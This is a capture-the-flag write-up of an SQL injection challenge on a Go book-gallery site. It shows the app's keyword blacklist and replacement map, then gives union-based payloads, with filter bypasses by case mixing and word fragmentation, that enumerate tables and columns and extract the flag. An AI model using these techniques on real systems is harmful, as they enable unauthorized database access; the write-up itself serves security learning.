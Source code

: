 # SQL Injection Challenge Write-up

## Initial Analysis

![alt text](<img/0.png>)

The website displays a gallery of books. By examining the source code, I identified 3 endpoints: homepage, `/book`, and `/authors`.

![](<img/1.png>)

In the `AuthorController.go` source code, there's a query that displays names or `birth_country`, or `birth_city` that match the `searchQuery`.

## Discovery Process

### Testing the `/authors` Endpoint

![](img/2.png)

When I initially tested the `/authors` endpoint, the query didn't work and still displayed all authors from the database.

Upon further investigation, I discovered that **more than 1 query parameter is required** to make it work. Without this, the query is treated as the letter "A".


![](img/3.png)

I retested by adding `&query=` and the database query worked. This led me to assume this was a SQL injection challenge, but when I tried inserting a single quote, nothing happened - no error was returned as expected.

### Source Code Analysis

After reviewing the source code again, I found the `SanitizedData` function that performs blacklisting on several words and characters, and also performs character replacement, including replacing single quotes with the string "uuu".

```go
blacklist := []string{
    "UNION", "SELECT", "INSERT", "UPDATE", "DELETE", "DROP", "CREATE",
    "ALTER", "EXEC", "EXECUTE", "FROM", "WHERE", "ORDER", "GROUP",
    "HAVING", "INTO", "VALUES", "SET", "SCHEMA", "LOAD_FILE",
    "OUTFILE", "DUMPFILE", "CONCAT", "SUBSTRING", "ASCII", "CHAR",
    "VERSION", "USER", "SLEEP", "BENCHMARK", "WAITFOR", "DELAY",
    "TABLE", "COLUMN", "DATABASE", "DATABASES", "TABLES", "COLUMNS",
    "AND", "OR", "NOT", "LIKE", "BETWEEN", "IS", "NULL",
    "TRUE", "FALSE", "LIMIT", "OFFSET", "DISTINCT", "EXISTS",
    "CASE", "WHEN", "THEN", "ELSE", "END", "IF", "ELSEIF",
    "CAST", "CONVERT", "CHARSET", "COLLATE", "INDEX", "KEY",
    "PRIMARY", "INFORMATION_SCHEMA", "SHOW", "GRANT", "REVOKE",
    "'", "\"", ";", "--", "/*", "*/", "||", "&&", "XOR",
    "=", "<", ">", "!", "+", "-", "*", "/", "%", "^",
    "(", ")", "[", "]", "{", "}", "|", "&", "~",
}

specialBlacklist := []string{
    "CaT", "MiaW", "Auuu", "uuu", "uaA", "hurra", "titik", "sd",
}
```

**Character Replacement Mappings:**
- `CaT` → `#`
- `MiaW` → `;`
- `Auuu` → `-`
- `uuu` → `'`
- `uaA` → `,`
- `hurra` → `_`
- `titik` → `.`
- `sd` → `=`

## Exploitation

### Step 1: Confirming SQL Injection

![](<img/4.png>)

I replaced the single quote with the string "uuu" as per the source code. The web application successfully returned a MySQL error message, confirming the database type.

### Step 2: Enumerating Tables

**Original payload:**
```sql
' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables # 
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaA2uaAtTABLEtableablehurranameuaA4uaA5%20FrOm%20infooORrrmationhurrasSCHEMAschemachematitikttTABLEtableablesables%20CaT
```

**Bypass Strategy:**
- For MySQL syntax keywords: Use mixed case manipulation
- For non-syntax words: Combine string fragments to form the original word

![](<img/5.png>)

This payload revealed a table with an unusual name: `d2g0dDFzdGgxcw`

### Step 3: Enumerating Columns

**Original payload:**
```sql
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='d2g0dDFzdGgxcw' # 
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaA2uaAcCOLUMNcolumnolumnhurranameuaA4uaA5%20FrOm%20infooORrrmationhurrasSCHEMAschemachematitikccCOLUMNcolumnolumnsolumns%20wHeRe%20tTABLEtableablehurranamesduuud2g0dDFzdGgxcwuuu%20CaT
```

![](<img/6.png>)

This successfully displayed the column names in table `d2g0dDFzdGgxcw`: 
- `tirai_satu`
- `tirai_dua` 
- `tirai_tiga`

### Step 4: Extracting the Flag

**Final payload:**
```sql
' UNION SELECT 1,tirai_satu,tirai_dua,tirai_tiga,5 FROM d2g0dDFzdGgxcw #
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaAtiraihurrasatuuaAtiraihurraduauaAtiraihurratigauaA5%20FrOm%20d2g0dDFzdGgxcw%20%20CaT
```

![](<img/7.png>)

The web application displayed the flag in the `tirai_tiga` column.

## Flag

```
HiB25{Th3_tru3_fl4g_1s_only_f0r_tru3_w4rr10r5_g00d_luck_champs}
```

## Summary

This challenge required bypassing a sophisticated input sanitization system that:
1. Blacklisted common SQL injection keywords and characters
2. Used special string replacements to obfuscate filter bypasses
3. Required understanding of both case manipulation and string fragmentation techniques

The key to success was carefully analyzing the sanitization function and crafting payloads that would reconstruct the intended SQL syntax after passing through the filters.